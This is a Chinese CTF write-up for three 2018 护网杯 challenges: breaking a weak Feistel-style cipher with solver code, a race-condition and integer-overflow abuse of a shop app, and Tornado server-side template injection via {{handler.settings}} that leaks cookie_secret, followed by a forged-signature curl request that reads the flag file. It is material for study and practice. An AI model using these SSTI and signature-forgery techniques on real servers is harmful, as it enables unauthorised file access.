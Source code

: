 ```yaml
---
toc: true
comments: true
title: 护网杯解题记录
category: writeup
date: 2018-10-13 21:17:37
---
```


![1539436751699](1539436751699.png)
# FEZ

```python
import os
def xor(a,b):
    assert len(a)==len(b)
    c=""
    for i in range(len(a)):
        c+=chr(ord(a[i])^ord(b[i]))
    return c
def f(x,k):
    return xor(xor(x,k),7)
def round(M,K):
    L=M[0:27]
    R=M[27:54]
    new_l=R
    new_r=xor(xor(R,L),K)
    return new_l+new_r
def fez(m,K):
    for i in K:
        m=round(m,i)
    return m

K=[]
for i in range(7):
    K.append(os.urandom(27))
m=open("flag","rb").read()
assert len(m)<54
m+=os.urandom(54-len(m))

test=os.urandom(54)
print test.encode("hex")
print fez(test,K).encode("hex")
print fez(m,K).encode("hex")
```

假设最后一轮结束后高低字节分别为l,r，可逐轮逆推出上一轮的值，从而得到明文和密文的关系。由已知的一组test明文密文对，可得到flag的明文。

| round | left                         | right                 |
| ----- | ---------------------------- | --------------------- |
| 0     | l^r^k[0]^k[1]^k[3]^k[4]^k[6] | l^k[1]^k[2]^k[4]^k[5] |
| 1     | l^k[1]^k[2]^k[4]^k[5]        | r^k[2]^k[3]^k[5]^k[6] |
| 2     | r^k[2]^k[3]^k[5]^k[6]        | l^r*k[3]^k[4]^k[6]    |
| 3     | l^r*k[3]^k[4]^k[6]           | l^k[4]^k[5]           |
| 4     | l^k[4]^k[5]                  | r^k[5]^k[6]           |
| 5     | r^k[5]^k[6]                  | r^l^k[6]              |
| 6     | r^l^k[6]                     | l                     |
| 7     | l                            | r                     |

```python
# -*- coding: utf-8 -*-
# __author__ = findneo

def xor(a,b):
    assert len(a)==len(b)
    c=""
    for i in range(len(a)):
        c+=chr(ord(a[i])^ord(b[i]))
    return c
all_xor = lambda x:reduce(xor,x)
test_plain="c8b84d08e5a8e60a49578f387fff5a90e9e7c181734bf05be4f5403c9ea24a0b8741a329991637e11fa69019cd3b01d7c95b65f5abd5"
test_cipher="5c3660c27cb9b3785a5ce06022e88bc831017e882d39475ea85d919ad9e5ac498f86c553216cab1f8f7468353d46ba8971efa9ca8c81"
flag_cipher="519ab6fc0e435da00516b844f8fe664bfe9445992f478dc650701739a11ffda5bbeb643159d7e8cd03a2104c798a1ca734b905ee6c76"

p=test_plain.decode("hex")
c=test_cipher.decode("hex")
f=flag_cipher.decode("hex")

l,r=c[0:27],c[27:54]
pl,pr=p[0:27],p[27:54]
fl,fr=f[0:27],f[27:54]
fcl=all_xor([l,r,pl,fl,fr])
fcr=all_xor([l,pr,fl])
flag=fcl+fcr
print flag
#flag{festel_weak_666_plo88112tty}�{v�N;	K�X
```

# LTSHOP

使用burp的intruder竞争买大辣条，得到超过五个大辣条。

![1539428933786](1539428933786.png)

然后买 `2**64/5+1` 个辣条王，使得需要付的大辣条多到uint装不下，向上溢出为负数，我们就买得起很多的辣条王了，实现一夜暴富。

![1539429086591](1539429086591.png)

然后flag就随便买了。

![1539429113491](1539429113491.png)

![1539437436657](1539437436657.png)

# easy_tornado

有三个提示：

```html
http://49.4.78.9:31465/file?filename=flag.txt&signature=95660d430a8ad05fc7337d12e6a08b1a
render()
md5(cookie_secret + md5(filename))
/fllllllllllag
```

报错页面存在SSTI。

```html
访问 `http://49.4.78.9:31465/error?msg={{handler.settings}}`得到配置信息。
Whoops, looks like somethings went wrong . 
{'login_url': '/login', 'template_path': 'templates', 'xsrf_cookies': True, 'cookie_secret': 'pGD*~9Y]N?>5zBvS_3768U+O}<#^k@oM$grqZQ4!yK1ucVnijmRJlFwI%hP(0exE', 'debug': False, 'file_path': '/www/static/files', 'static_path': 'static'}
```

得到cookie_secret，即可构造签名读取flag。

```bash
abc@xyz:~$ curl "http://49.4.78.9:31465/file?filename=/fllllllllllag&signature=8f270fa794962fa2ec4e63e6b03a830b" -s | grep flag
flag{59a95928373bfa789e06635d2d5e9459}
```

参考：https://www.cnblogs.com/bwangel23/p/4858870.html